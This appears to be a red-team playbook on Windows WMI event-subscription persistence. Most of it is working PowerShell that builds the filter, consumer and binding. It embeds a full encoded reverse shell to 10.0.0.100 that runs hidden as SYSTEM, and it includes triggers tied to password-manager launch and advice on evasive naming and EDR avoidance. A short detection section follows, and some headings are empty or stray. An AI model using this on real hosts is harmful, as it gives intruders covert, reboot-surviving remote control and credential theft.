

# WMI Event Subscriptions (Persistence)

## When to Use
- When you have elevated access (Local Admin or SYSTEM) on a Windows target and need persistence that survives reboots while evading standard Autoruns and Scheduled Task enumeration.
- When standard persistence mechanisms (Registry Run keys, Scheduled Tasks) are closely monitored by EDR and you need to live deeper in the OS.
- To execute "fileless" payloads stored entirely within the WMI repository (`C:\Windows\System32\wbem\Repository\OBJECTS.DATA`), outside the traditional filesystem.
- To attach payloads to conditional triggers — for example, launching a keylogger only when the user opens `keepass.exe` or `chrome.exe`.

**When NOT to use**: For initial access payload delivery, use `phishing-payload-generation`. For registry-based persistence, use standard Run key techniques. For service-based persistence that's simpler but noisier, use Scheduled Tasks.

## Prerequisites
- Administrative or SYSTEM-level access on the target Windows host
- PowerShell execution (not in Constrained Language Mode)
- Understanding of WQL (WMI Query Language) for custom triggers
- A staged payload (reverse shell, C2 beacon) ready for execution

## Workflow

### Phase 1: Understanding the WMI Persistence Triad

```text
# WMI Event Subscriptions require three interconnected components stored in
# the WMI repository (C:\Windows\System32\wbem\Repository):

# 1. Event Filter (__EventFilter):
#    A WQL query defining WHAT system event to monitor.
#    Think of it as: "Watch for the exact moment when [condition] occurs."
#    Example: "Trigger when system uptime exceeds 3 minutes after boot."

# 2. Event Consumer (CommandLineEventConsumer or ActiveScriptEventConsumer):
#    The malicious ACTION to execute when the filter's condition is met.
#    Think of it as: "When triggered, run this hidden PowerShell beacon."
#    Types:
#      - CommandLineEventConsumer → executes a command line (most common)
#      - ActiveScriptEventConsumer → executes VBScript/JScript inline
#      - LogFileEventConsumer → writes to a log (useful for staging)
#      - SMTPEventConsumer → sends email (rare in attacks)

# 3. FilterToConsumerBinding (__FilterToConsumerBinding):
#    The LINK that marries a specific Filter to a specific Consumer.
#    Without this binding, the Filter watches and Consumer waits, but
#    nothing connects them. This is what activates the persistence.
```

### Phase 2: Crafting the Event Filter (The Trigger)

```powershell
# Execute from an elevated PowerShell session on the target.

# === TRIGGER OPTION A: System Startup (3-5 minutes after boot) ===
# Rationale: Wait for network stack to fully initialize before C2 callback.
$FilterName = "CoreTelemetryMonitor"
$StartupQuery = @"
SELECT * FROM __InstanceModificationEvent WITHIN 60 
WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' 
AND TargetInstance.SystemUpTime >= 240 
AND TargetInstance.SystemUpTime < 325
"@

$FilterArgs = @{
    Name            = $FilterName
    EventNamespace  = "root\cimv2"
    QueryLanguage   = "WQL"
    Query           = $StartupQuery
}
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments $FilterArgs

# === TRIGGER OPTION B: User Logon Event ===
$LogonQuery = "SELECT * FROM __InstanceCreationEvent WITHIN 15 WHERE TargetInstance ISA 'Win32_LogonSession' AND TargetInstance.LogonType = 2"

# === TRIGGER OPTION C: Specific Process Launch (e.g., when KeePass opens) ===
$ProcessQuery = "SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName = 'keepass.exe'"

# === TRIGGER OPTION D: Time-Based (Every day at 2:00 AM) ===
$TimeQuery = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Hour = 2 AND TargetInstance.Minute = 0"
```

### Phase 3: Crafting the Event Consumer (The Payload)

```powershell
# The Consumer defines WHAT executes when the Filter triggers.
# The payload runs as NT AUTHORITY\SYSTEM — maximum privileges.

# === OPTION A: CommandLineEventConsumer (most common) ===
# Use a hidden PowerShell reverse shell encoded in Base64
$ConsumerName = "CoreTelemetryLogger"

# Generate the payload (example: encoded PowerShell reverse shell)
# In practice, use your C2 framework's stager (Cobalt Strike, Sliver, etc.)
$RawPayload = '$c=New-Object Net.Sockets.TCPClient("10.0.0.100",443);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$r2=$r+"PS "+(pwd).Path+"> ";$sb=([text.encoding]::ASCII).GetBytes($r2);$s.Write($sb,0,$sb.Length);$s.Flush()};$c.Close()'
$EncodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($RawPayload))
$CommandLine = "powershell.exe -w hidden -nop -enc $EncodedPayload"

$ConsumerArgs = @{
    Name                = $ConsumerName
    CommandLineTemplate  = $CommandLine
}
$Consumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments $ConsumerArgs

# === OPTION B: ActiveScriptEventConsumer (VBScript — more evasive) ===
$VBPayload = @"
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell.exe -w hidden -nop -enc $EncodedPayload", 0, False
"@
$ScriptConsumerArgs = @{
    Name             = "UpdateServiceHandler"
    ScriptingEngine  = "VBScript"
    ScriptText       = $VBPayload
}
# $ScriptConsumer = Set-WmiInstance -Namespace root\subscription -Class ActiveScriptEventConsumer -Arguments $ScriptConsumerArgs
```

### Phase 4: Binding Filter to Consumer (Activating Persistence)

```powershell
# The binding is the activation step — without it, nothing triggers.

$BindArgs = @{
    Filter   = $Filter
    Consumer = $Consumer
}
$Binding = Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments $BindArgs

Write-Host "[+] WMI Persistence established successfully." -ForegroundColor Green
Write-Host "[+] Filter: $FilterName → Consumer: $ConsumerName" -ForegroundColor Green
Write-Host "[+] Payload executes as SYSTEM upon next trigger activation." -ForegroundColor Green
```

### Phase 5: Validation & OPSEC

```powershell
# === VERIFY the persistence was created ===

# 1. List all Event Filters
Get-WmiObject -Namespace root\subscription -Class __EventFilter |
  Select-Object Name, Query | Format-Table -AutoSize

# 2. List all Event Consumers
Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer |
  Select-Object Name, CommandLineTemplate | Format-Table -AutoSize

# 3. List all Bindings
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding |
  Select-Object @{N='Filter';E={$_.Filter.Split('"')[1]}},
                @{N='Consumer';E={$_.Consumer.Split('"')[1]}} |
  Format-Table -AutoSize

# === OPSEC CONSIDERATIONS ===
# - Use benign-sounding names: "WindowsUpdateMonitor", "TelemetryService"
# - Avoid putting offensive tool names in the CommandLineTemplate
# - Use double-encoding or encryption on the payload
# - Consider using ActiveScriptEventConsumer as it's less commonly monitored
# - Time your trigger to coincide with normal system activity
```

### Phase 6: Cleanup (Critical for OPSEC)

```powershell
# When the operation concludes, you MUST remove all three components.
# Leaving them creates forensic evidence and potential future compromise.

# Remove the binding FIRST
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  -Filter "Filter=""__EventFilter.Name='$FilterName'""" | Remove-WmiObject

# Remove the consumer
Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer `
  -Filter "Name='$ConsumerName'" | Remove-WmiObject

# Remove the filter
Get-WmiObject -Namespace root\subscription -Class __EventFilter `
  -Filter "Name='$FilterName'" | Remove-WmiObject

Write-Host "[+] WMI persistence artifacts cleaned up." -ForegroundColor Yellow
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense

### Detection Methods
- **Sysmon Event ID 19 (WmiEventFilter activity detected)**: Captures creation of new WMI Event Filters. Alert on any new `__EventFilter` in `root\subscription`.
- **Sysmon Event ID 20 (WmiEventConsumer activity detected)**: Captures creation of Event Consumers. Alert specifically on `CommandLineEventConsumer` and `ActiveScriptEventConsumer` types.
- **Sysmon Event ID 21 (WmiEventConsumerToFilter activity detected)**: Captures the binding creation. This is the final activation step.
- **PowerShell Script Block Logging (Event ID 4104)**: When the `CommandLineEventConsumer` executes its payload, PowerShell deobfuscates the Base64 content. This is captured in Script Block Logs regardless of AMSI status.
- **WMI Repository Parsing**: Tools like `Get-WMIObject` or PyWMIPersistenceFinder can enumerate all active subscriptions across endpoints.
- **Sysinternals Autoruns**: The "WMI" tab in `Autoruns64.exe` natively displays all WMI Event Consumers that execute shell commands.

### Prevention
- **Restrict WMI Access**: Use GPO to limit who can create permanent WMI subscriptions. Apply the principle of least privilege.
- **AppLocker/WDAC**: Restrict PowerShell to ConstrainedLanguage mode for non-privileged users, preventing `Set-WmiInstance` abuse.
- **Sysmon Deployment**: Deploy Sysmon with a configuration that specifically monitors Event IDs 19, 20, 21 for any `root\subscription` namespace changes.
- **Regular Auditing**: Periodically enumerate `root\subscription` for unexpected Filters, Consumers, and Bindings.

## Key Concepts
| Concept | Description |
|---------|-------------|
| WMI (Windows Management Instrumentation) | Microsoft's OS management framework providing deep administrative control and querying capability via the CIM (Common Information Model) |
| WQL (WMI Query Language) | SQL-like syntax for querying the WMI database. Used to define Event Filter trigger conditions (e.g., `SELECT * FROM Win32_ProcessStartTrace`) |
| __EventFilter | WMI class defining WHEN the persistence triggers. Contains the WQL query that monitors for specific system events |
| CommandLineEventConsumer | WMI class defining WHAT executes when triggered. Launches a command line process (typically hidden PowerShell) as SYSTEM |
| ActiveScriptEventConsumer | Alternative consumer that executes inline VBScript/JScript. More evasive as it doesn't spawn a new process directly |
| __FilterToConsumerBinding | WMI class that LINKS a specific Filter to a specific Consumer, activating the persistence mechanism |
| Fileless Malware | Attack methodology operating within RAM or leveraging built-in OS tools (PowerShell, WMI), avoiding placing executables on disk |
| OBJECTS.DATA | The WMI repository file where all WMI class instances are stored. WMI persistence lives here, outside the standard filesystem |

## Output Format
```
Red Team Tactics Report: WMI Event Subscription Persistence
=============================================================
Target Host: SRV-DC01.corp.local
Privilege Level: NT AUTHORITY\SYSTEM (Elevated via PrintSpoofer)
MITRE ATT&CK: T1546.003 (Event Triggered Execution: WMI Event Subscription)

Implementation:
  Event Filter: "CoreTelemetryMonitor"
    Trigger: System uptime between 240-325 seconds (4-5 min post-boot)
    Namespace: root\cimv2
   
  Event Consumer: "CoreTelemetryLogger" (CommandLineEventConsumer)
    Payload: Hidden PowerShell reverse shell to 10.0.0.100:443
    Execution Context: SYSTEM
   
  Binding: CoreTelemetryMonitor → CoreTelemetryLogger (Active)

Validation:
  Rebooted target host → Reverse shell received after 4 minutes
  Payload executed as NT AUTHORITY\SYSTEM
  No alerts generated by CrowdStrike Falcon (at time of test)
 
OPSEC Notes:
  - Named components after legitimate Windows telemetry services
  - Payload double-encoded to evade static analysis
  - Trigger window (240-325s) avoids collision with startup scripts

Cleanup Status: All three components removed after operation concluded
```


- Pivot and escalate using chained attack paths.


## 📚 Shared Resources
> For cross-cutting methodology applicable to all vulnerability classes, see:
> - [`_shared/references/elite-chaining-strategy.md`](../_shared/references/elite-chaining-strategy.md) — Exploit chaining methodology and high-payout chain patterns
> - [`_shared/references/elite-report-writing.md`](../_shared/references/elite-report-writing.md) — HackerOne-optimized report writing, CWE quick reference
> - [`_shared/references/real-world-bounties.md`](../_shared/references/real-world-bounties.md) — Verified disclosed bounties by vulnerability class

## References
- MITRE ATT&CK: [Event Triggered Execution: WMI Event Subscription](https://attack.mitre.org/techniques/T1546/003/)
- SpecterOps: [Threat Hunting with WMI Event Subscriptions](https://posts.specterops.io/threat-hunting-with-wmi-event-subscriptions-10cd27546a36)
- FireEye/Mandiant: [WMI: Offense, Defense, and Forensics](https://www.mandiant.com/resources/blog/windows-management-instrumentation-wmi-offense-defense-and-forensics)
- Microsoft: [WMI Event Subscription Reference](https://docs.microsoft.com/en-us/windows/win32/wmisdk/monitoring-events)
